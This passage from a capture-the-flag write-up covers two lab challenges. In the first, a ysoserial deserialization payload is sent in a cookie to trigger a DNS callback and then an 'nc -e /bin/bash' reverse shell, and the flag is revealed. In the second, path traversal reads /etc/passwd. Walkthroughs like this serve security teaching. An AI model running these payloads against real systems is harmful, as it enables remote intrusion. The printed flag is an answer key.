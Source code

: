 ```bash
curl --cookie "counter=$(ysoserial Spring1 'nslookup outserver.com' | gzip | base64 -w 0)" "http://172.17.0.2:8080"
```

And surprisingly we receive a DNS resolution request on our server! Good, now lets try to open a reverse shell:

```bash
curl --cookie "counter=$(ysoserial Spring1 'nc 172.17.0.1 4444 -e /bin/bash' | gzip | base64 -w 0)" "http://172.17.0.2:8080"
```

With us listening on the over side:

```bash
nc -nlvp 4444
```

Et voilà, we have our reverse shell and can cat for the flag situated at */opt/credits-1.0.0-SNAPSHOT/flag.txt*

🏁 __gigem{da$h_3_1s_A_l1f3seNd}__{:.spoiler}

## filestorage

> Try out my new file sharing site!
> http://172.17.0.2

Navigating to __http://172.17.0.2/index.php__ gives as a form asking for a name

![nameform](/assets/img/TamuCTF_2020/filestorage_1.png)

Let's try and input something like _\<strong>foo</strong>_.
It will get us to a sort of uploads list page. Observe that our name is not escaped.

![listuploads](/assets/img/TamuCTF_2020/filestorage_2.png)

If we click on one of the list elements we can get that file's content.

![seeupload](/assets/img/TamuCTF_2020/filestorage_3.png)

Observe the link that was used to view the page:

```bash
http://172.17.0.2/index.php?file=beemovie.txt
```

Hmm, smells like RFI.

Let's try something like _/index.php?file=../../../../etc/passwd_

![lfi](/assets/img/TamuCTF_2020/filestorage_4.png)

It works! Seems like _index.php?file=filename_ does something like:

```php
if ($_GET['file']) {
    $output = file_get_contents($_GET['file']);
    include ($output);
}
```
